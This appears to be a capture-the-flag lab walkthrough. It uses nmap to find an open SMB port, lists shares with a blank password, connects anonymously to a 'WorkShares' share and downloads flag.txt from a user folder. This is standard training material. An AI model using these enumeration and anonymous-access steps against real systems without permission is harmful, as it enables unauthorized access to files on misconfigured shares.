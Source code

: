 1. Scan all the ports and determine service and version of open ports
```bash
nmap -sV [ip machine]
```
--> port 445/tcp - open - microsoft-ds?



2. List the files stored on the share
```bash
smbclient -L [ip machine]
	Password: [blank]
```
-->   ADMIN$ - Disk - Remote Admin /
        C$ - Disk - Default share / 
        IPC$ - IPC - Remote IPC / 
        **WorkShares - Disk**      



3. Connect to the machine via "smb"
```bash
smbclient \\\\[ip machine]\\Workshares
	Password: [blank]
```
--> Connected


4. Move into the machine and Capture the flag
```bash
smb: \> ls
	Amy.J
	James.P

smb: \> cd James.P

smb: \James.P\> ls
	flag.txt

smb: \James.P\> get flag.txt
```
--> Transfer completed!